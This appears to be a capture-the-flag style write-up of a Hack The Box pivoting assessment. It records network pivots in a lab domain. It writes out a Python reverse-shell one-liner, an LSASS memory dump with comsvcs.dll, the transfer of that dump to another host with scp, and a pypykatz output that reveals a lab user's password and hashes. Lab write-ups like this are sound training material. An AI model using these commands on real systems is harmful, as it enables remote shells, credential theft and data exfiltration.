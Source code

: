 # Assessment

## Enumeration

<figure><img src="../../.gitbook/assets/image (23).png" alt=""><figcaption><p>webadmin</p></figcaption></figure>

Seems to be a Linux host running on this system and there are 2 interfaces as below.

<figure><img src="../../.gitbook/assets/image (31) (1) (1).png" alt=""><figcaption><p>another network segment that we could use to pivot.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (17) (1) (1).png" alt=""><figcaption><p>mlefay:Plain Human work!</p></figcaption></figure>

I decided to get a reverse shell for more control over the foothold sytem.

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",7890));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

<figure><img src="../../.gitbook/assets/image (69).png" alt=""><figcaption><p>but it wasn't nessesary</p></figcaption></figure>

I moved the id\_rsa file and ssh to the system with that file. Now I'm in the system with the same credentials but with ssh.

Next I will try to dynamic port forward with ssh.

Then perform nmap scan to find the host that are up.

<figure><img src="../../.gitbook/assets/image (15) (2).png" alt=""><figcaption><p>172.16.5.35</p></figcaption></figure>

## Scan Host2

**Scan result**

```
Nmap scan report for 172.16.5.35
Host is up (0.20s latency).
Not shown: 995 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3389/tcp open  ms-wbt-server

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 204.43 seconds
```

now we know that RDP is open on this system we can try to use the credentials against the this host.

<figure><img src="../../.gitbook/assets/image (53).png" alt=""><figcaption><p>pivot-srv01/mlefay</p></figcaption></figure>

We got access to the pivot-srv01/mlefay and as a local Admin.&#x20;

```
PS C:\Windows\system32> Get-WmiObject -Class Win32_UserAccount -Filter "LocalAccount='True' AND Disabled='False'"

AccountType : 512
Caption     : PIVOT-SRV01\Administrator
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-500
FullName    :
Name        : Administrator

AccountType : 512
Caption     : PIVOT-SRV01\apendragon
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1002
FullName    : apendragon
Name        : apendragon

AccountType : 512
Caption     : PIVOT-SRV01\mlefay
Domain      : PIVOT-SRV01
SID         : S-1-5-21-1602415334-2376822715-119304339-1003
FullName    : mlefay
Name        : mlefay
```

**2nd Interface 172.16.6.35**

```
PS C:\Windows\system32> ipconfig

Windows IP Configuration


Ethernet adapter Ethernet0:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::7dab:2573:1024:6c4a%4
   IPv4 Address. . . . . . . . . . . : 172.16.5.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . : 172.16.5.1

Ethernet adapter Ethernet1 2:

   Connection-specific DNS Suffix  . :
   Link-local IPv6 Address . . . . . : fe80::e041:c210:35fe:c55a%5
   IPv4 Address. . . . . . . . . . . : 172.16.6.35
   Subnet Mask . . . . . . . . . . . : 255.255.0.0
   Default Gateway . . . . . . . . . :
```

To find the users credentials through the lsass filem, we dump the lsass process and scp to the webadmin host using the following command.

```powershell
Get-Process lsass
# get the process lsass was running

rundll32 C:\windows\system32\comsvcs.dll, MiniDump 672 C:\lsass.dmp full
# dump the lsass

scp -i .\id_rsa C:\lsass.dmp webadmin@172.16.5.15:~/
# transfer the lsass to webadmin
```

Properties -> Security -> Advanced -> Disable inheritance -> Add -> Select a principal -> Enter the object name to select (add windows username) -> (check full control) -> OK -> Apply -> OK

All the above settings is just to set the permission of the id\_rsa file `chmod 0400 id_rsa` 😒

<figure><img src="../../.gitbook/assets/image (50).png" alt=""><figcaption><p>make sure the orders are correct because Windows is trash.</p></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (42) (1).png" alt=""><figcaption><p>Transfer file from pivot host to </p></figcaption></figure>

using `pypykatz lsa minidump lsass.dmp` we found the user `vfrank:Imply wet Unmasked!`

```
== LogonSession ==
authentication_id 160373 (27275)
session_id 0
username vfrank
domainname INLANEFREIGHT
logon_server ACADEMY-PIVOT-D
logon_time 2023-07-02T11:06:10.741078+00:00
sid S-1-5-21-3858284412-1730064152-742000644-1103
luid 160373
        == MSV ==
                Username: vfrank
                Domain: INLANEFREIGHT
                LM: NA
                NT: 2e16a00be74fa0bf862b4256d0347e83
                SHA1: b055c7614a5520ea0fc1184ac02c88096e447e0b
                DPAPI: 97ead6d940822b2c57b18885ffcc5fb4
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == Kerberos ==
                Username: vfrank
                Domain: INLANEFREIGHT.LOCAL
                Password: Imply wet Unmasked!
                password (hex)49006d0070006c0079002000770065007400200055006e006d00610073006b006500640021000000
        == WDIGEST [27275]==
                username vfrank
                domainname INLANEFREIGHT
                password None
                password (hex)
        == DPAPI [27275]==
                luid 160373
                key_guid 560f4286-76f2-4f0f-90a9-5135bbc0104f
                masterkey 4fc3adb204f30f6a226f637b66be93811cee121eaed0e4ec2e8bc023d2d38d396e0c4e827aa49c6b1c2a58f6428ca725be027497ad10f8dd386d5926e7bf73b7
                sha1_masterkey a3e3a61d9a74541a56c3a822d5470bedbb2d4fb5
```

I then performed a **ping sweep** on the 172.16.6.X to find another host to pivot to using cmd.

```
for /L %i in (1,1,255) do @ping -n 1 -w 200 172.16.6.%i > nul && echo 172.16.6.%i is up
```

and we found the following address

<figure><img src="../../.gitbook/assets/image (75) (1).png" alt=""><figcaption><p>172.16.6.25</p></figcaption></figure>

Since 172.16.6.35 is our address we can ignore that and focus on 172.16.6.25

Now that we know the ipaddress of the target and we have the credentials, next is to try remote desktop connection (we know from the question of hack the box that the target is running windows. becase the flag is located in C:\Flag.txt)

<figure><img src="../../.gitbook/assets/image (65).png" alt=""><figcaption><p>And just like that we are in and got the flag.</p></figcaption></figure>

next we found another interface on this machine and seems like we have to perform double pivots. However I'm not sure about the credentials on the Domain Controller.

It was not the case here. I found the flag in the C directory where the DC admin files system was already mounted lol

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
